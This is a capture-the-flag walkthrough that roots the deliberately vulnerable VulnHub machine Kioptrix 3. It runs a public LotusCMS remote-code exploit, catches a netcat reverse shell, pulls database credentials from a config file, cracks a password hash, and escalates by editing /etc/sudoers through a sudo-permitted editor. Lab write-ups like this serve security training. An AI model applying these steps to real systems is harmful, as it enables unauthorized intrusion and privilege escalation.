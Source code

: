 # Kioptrix Level 3

Today, we will be pwning the VulnHub machine Kioptrix 3. The final machine in the Kioptrix series. Congrats on getting this far!

  

# Enumeration

  

Once you have obtained the machine's IP address, we will perform a routine nmap scan using the `-sV` and `-sC` flags.

  

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-07_13-42-31.png?raw=true)

  

As you can see from the scan, we seem to have a SSH server and an Apache server running version `2.2.8`.

Upon visiting the IP in our browser, we are greeted with some sort of gallery website. After a bit of searching, the "login" tab seems to spark a few ideas.

  

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-07_14-12-21.png?raw=true)

  

We could try **SQL injection** but after testing a few payloads such as `'#`, we have no luck. Using **searchsploit**, it is apparent that there is a vulnerability for LotusCMS (which the login page is powered by).

  
![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-07_14-14-45.png?raw=true)
  

The first payload does seem to be a good choice however for the purpose of this tutorial I'll be using [this exploit](https://github.com/Hood3dRob1n/LotusCMS-Exploit).
  

```bash

git clone https://github.com/Hood3dRob1n/LotusCMS-Exploit

cd LotusCMS-Exploit

./lotusRCE.sh

# answering prompts:

[host-ip]

4444

```

Now, you will need to setup a netcat listener in another terminal.

```bash

nc -lvnp 4444

```

Finally, you can obtain a reverse shell on the machine by entering the letter 1 (on the LotusCMS script).

  

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-07_14-41-34.png?raw=true)

  

From the image, we can see that we have successfully gotten a reverse shell! However, we need to pimp it up a little so enter:

```

python -c 'import pty; pty.spawn("/bin/bash")'

```

Now you'll have a much more responsive shell! Now we need to perform some more enumeration. Firstly, I'll checkout the `/etc/passwd` file. Two users seems to catch my eye - loneferret and dreg.

  

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-07_14-44-31.png?raw=true)

  

As you can see from the image, we have entered the home directory of loneferret to checkout what they've got hiding! After running `ls`, the company policy file seems to be the most interesting.

It seems to want us to run `sudo ht`, after doing so, we are faced with a massive brickwall....We don't know the password!

After searching through this machine for a while, the subdirectory of `/home` named `www` catches my attention. Inside it, seems to be the files for the Kioptrix website. Upon entering this directory and running `ls`, nothing of proper interest seems to come up.

  

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-07_14-54-22.png?raw=true)

  

After searching around a bit more, we come across the file `/home/www/kioptrix3.com/gallery/gconfig.php`. After viewing the contents of the file it is apparent it contains some db credentials! However, there does not seem to be much these credentials could be for. So we'll run gobuster quickly to identify any further entry points.

  

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-07_15-01-09.png?raw=true)

  

```

gobuster dir --url http://[machine-ip] --wordlist /usr/share/wordlists/dirb/common.txt

```

> Directory of wordlist for Kali only, if on other OS please install the Dirb common.txt wordlist.

  

Finally something good! Using the login credentials we can login to the phpmyadmin console that gobuster found.

  

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-07_15-01-47.png?raw=true)

  

We have successfully gained access to the/a database! After sifting through a bit, I manage to spot some account details located in the gallery database under the `dev_accounts` table. From here, we can crack the hashes for these accounts using https://crackstation.net. First, lets try the hash for the loneferret account. After entering our hash, we are told that the hash evaluates to the password `starwars`! Remeber that SSH server? We'll be using these credentials to log into that now. However, I'm not sure if the following is a bug or not but to be able to properly login to the SSH server we must use some alternate **Host Key Algorithms**, meaning the command used to login to the server is as follows:
```bash
ssh -oHostKeyAlgorithms=+ssh-dss loneferret@[machine-ip]
```

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-08_13-38-40.png?raw=true)

As shown in the image, we have successfully logged into the machine as `loneferret`. To check our sudo permissions we may run `sudo -l`. After doing so, we are told we can use `sudo` without a password to run the following `/usr/bin/su`, `/usr/local/bin/ht` and `/bin/bash`. Earlier, we looked at a company policy file with told us to type `sudo ht`, furthermore, looking at the output of the command we just used, we should be able to run `sudo ht` without any issues!

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-08_13-45-30.png?raw=true)

> If you face the error show in the image please first run `export TERM=xterm`.

After running `sudo ht`, you should be greeted with some sort of text editor interface.

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-08_13-46-16.png?raw=true)

Since we have run `ht` as superuser, we can edit the `sudoers` file to give us root permissions, to do so, enter `ALT-F`, then select the `Open` option, press enter and input the directory `/etc/sudoers`. Now you can add /bin/sh to the loneferret user privilege specification as shown in the image.

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-08_13-50-51.png?raw=true)

After this, just hit `ALT-F`, then select the `Save` option, then hit `ALT-F` again and select the option quit. From here you may simply run `sudo /bin/sh` and you will have root!

![enter image description here](https://github.com/benjibrown/CTF-writeups/blob/main/VulnHub/images/kioptrix3/Screenshot_2022-11-08_13-53-25.png?raw=true)

Congrats on pwning Kioptrix 3! ;)

